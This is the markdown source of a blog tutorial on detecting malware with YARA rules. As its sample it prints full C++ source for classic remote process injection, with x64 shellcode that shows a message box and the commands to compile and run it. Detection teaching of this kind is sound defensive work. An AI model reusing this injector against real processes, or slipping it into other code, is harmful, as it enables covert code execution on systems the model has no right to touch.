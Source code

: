 ```yaml
---
title:  "Malware analysis 3: threat hunting via YARA. Process injection example."
date:   2022-02-15 10:00:00 +0600
header:
  teaser: "/assets/images/40/2022-02-15_22-22.png"
categories:
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - analysis
  - yara
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![yara](/assets/images/40/2022-02-15_22-22.png){:class="img-responsive"}    

This is an introduction to my own YARA-based threat hunting research.     

### yara

When performing malware analysis, the analyst needs to collect every piece of information that can be used to identify malicious software. One of the techniques is [Yara](https://github.com/VirusTotal/yara) rules. In this post, I am going to explore Yara rules and how to use them in order to detect malware.    

**Yara** is an open-source tool that assists malware researchers to identify and classify malware samples by looking for certain characteristics.    

### detect malware with Yara rules

Let's discover how to use Yara rules to discover malware. For simplicity, first example is malware with [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection logic:   

```cpp
/*
hack.cpp
classic payload injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/15/malware-analysis-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

For checking correctness let's go to compile and run this code:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![yara](/assets/images/40/2022-02-15_22-46.png){:class="img-responsive"}    

```bash
.\hack.exe 4916
```

![yara](/assets/images/40/2022-02-15_12-43.png){:class="img-responsive"}    

As you can see, our simple malware example work perfectly.    

In Yara, each rule starts with a keyword `rule` followed by a *rule identifier*:   

![yara](/assets/images/40/2022-02-15_23-03.png){:class="img-responsive"}    

Rules are generally composed of two sections: *string* definition **(1)** and *condition* **(2)**:    

![yara](/assets/images/40/2022-02-15_23-06.png){:class="img-responsive"}    

Strings can be defined in text or hexadecimal form, as shown in the following example:    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

The condition section is where the logic of the rule resides. This section must contain a boolean expression telling under which circumstances a file or process satisfies the rule or not:    

![yara](/assets/images/40/2022-02-15_23-11.png){:class="img-responsive"}    

In our test rule, which is called meow, we are looking for all files that contain the word meow. To do this, we set the meow as string and as hexadecimal format in the rules:   

![yara](/assets/images/40/2022-02-15_22-03.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_22-53.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

### demo

Let's go to see everything in action. It's pretty simple:   

```bash
yara meow.yar ./hack.exe
```
![yara](/assets/images/40/2022-02-15_23-32.png){:class="img-responsive"}    

And it works!   

You can also check the whole folder recursively:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-37.png){:class="img-responsive"}    

But I want to find only `.exe` files. For this, update our yara rule, add condition: all the valid PE files contain the value of the first two-byte as `4D` and `5A` (**"MZ"** in ASCII), named after **M**ark **Z**bikowsky, a well-known architect of MS-DOS.    

![yara](/assets/images/40/2022-02-15_23-42.png){:class="img-responsive"}    

So, update our code of yara rule file:   

![yara](/assets/images/40/2022-02-15_23-58.png){:class="img-responsive"}    

Then, run with new `meow.yar`:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-50.png){:class="img-responsive"}    

As you can see Yara found all `pe`-files which contains `Meow-meow` string.    

Also found "evil" DLLs from the [previous](/pentest/2021/10/12/dll-hijacking-2.html) blog posts:    

![yara](/assets/images/40/2022-02-15_23-57.png){:class="img-responsive"}    

[Yara](https://github.com/VirusTotal/yara)    
[awesome-yara](https://github.com/InQuest/awesome-yara)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    
[source code on Github](https://github.com/cocomelonc/2022-02-15-malware-analysis-3)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
